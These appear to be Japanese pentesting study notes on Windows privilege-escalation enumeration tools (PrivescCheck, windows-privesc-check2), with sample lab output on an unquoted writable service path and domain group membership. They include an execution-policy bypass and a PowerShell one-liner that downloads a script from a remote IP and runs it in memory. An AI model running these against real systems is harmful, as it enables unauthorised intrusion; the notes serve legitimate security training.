

# PrivilegeCheck

### PrivescCheck.ps1

```
locate PrivescCheck.ps1
```

転送して実行

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

インメモリで実行

* 末尾に追加



* powershellを実行

```powershell
powershell.exe IEX (New-object System.Net.Webclient).Downloadstring('http://192.168.45.207/PrivescCheck.ps1')
```


unquotedのパスで、かつ、フォルダの書き込み権限があり、start/stop可能もしくはAutorunの場合に特権昇格できる可能性がある

```cmd
Name              : Service1
ImagePath         : C:\program files\zen\zen services\zen.exe
User              : zensvc@exam.com
ModifiablePath    : C:\program files\zen\zen services\zen.exe
IdentityReference : BUILTIN\Users
Permissions       : WriteAttributes, Synchronize, AppendData, WriteExtendedAttributes, WriteData
Status            : Stopped
UserCanStart      : False
UserCanStop       : False

-----

Name        : Service1
DisplayName : ZenHelpDesk
ImagePath   : C:\program files\zen\zen services\zen.exe
User        : zensvc@exam.com
StartMode   : Automatic
```


### winPEAS

### windows-privesc-check2

現在のユーザの所属グループを確認

```cmd
windows-privesc-check2.exe --dump -G

----
C:\Tools\privilege_escalation\windows-privesc-check-master>windows-privesc-check2.exe --dump -G
windows-privesc-check v2.0 (http://pentestmonkey.net/windows-privesc-check)

[i] TSUserEnabled registry value is 0. Excluding TERMINAL SERVER USER

Considering these users to be trusted:
* BUILTIN\Power Users
* BUILTIN\Administrators
* NT SERVICE\TrustedInstaller
* NT AUTHORITY\SYSTEM

[i] Running as current user.  No logon creds supplied (-u, -D, -p).

[+] Runtime Options Dump
 mode: dump
 do_all: False
 do_allfiles: False
 do_appendices: True
 do_drivers: False
 do_drives: False
 do_errors: False
 do_eventlogs: False
 do_groups: True
 do_installed_software: False
 do_loggedin: False
 do_nt_objects: False
 do_paths: False
 do_processes: False
 do_program_files: False
 do_reg_keys: False
 do_registry: False
 do_scheduled_tasks: False
 do_services: False
 do_shares: False
 do_unreadable_if: True
 do_users: False
 exploitable_by_list: []
 get_modals: False
 get_privs: False
 ignore_principal_file: False
 ignore_principal_list: ['BUILTIN\\Administrators', 'NT SERVICE\\TrustedInstaller', 'NT AUTHORITY\\SYSTEM']
 ignorenoone: False
 patchfile: None
 privesc_mode: report_untrusted
 remote_domain: None
 remote_host: None
 remote_pass: None
 remote_user: None
 report_file_stem: False
 verbose: False

============ Starting Audit at 2023-01-05 05:19:42 ============

[+] Running: dump_misc_checks
[+] Host is in domain
[-]   DomainControllerAddress => \\172.16.144.5
[-]   DnsForestName => corp.com
[-]   DomainName => corp.com
[-]   DomainControllerName => \\DC01.corp.com
[-]   DomainControllerAddressType => 1
[-]   DomainGuid => {01CA202F-643D-4CA3-BD55-3BA76F5567A2}
[-]   Flags => -536742915
[-]   ClientSiteName => Default-First-Site-Name
[-]   DcSiteName => Default-First-Site-Name
 [+] Checks completed

[+] Running: dump_groups
[+] Dumping group list:
BUILTIN\Administrators has member: CLIENT251\Administrator
BUILTIN\Administrators has member: CLIENT251\admin
BUILTIN\Administrators has member: corp\Domain Admins
BUILTIN\Administrators has member: corp\offsec
BUILTIN\Administrators has member: CLIENT251\offsec
BUILTIN\Guests has member: CLIENT251\Guest
BUILTIN\IIS_IUSRS has member: NT AUTHORITY\IUSR
BUILTIN\Remote Desktop Users has member: CLIENT251\student
BUILTIN\Users has member: NT AUTHORITY\INTERACTIVE
BUILTIN\Users has member: NT AUTHORITY\Authenticated Users
BUILTIN\Users has member: CLIENT251\student
BUILTIN\Users has member: corp\Domain Users
BUILTIN\Users has member: CLIENT251\offsec
 [+] Checks completed
```

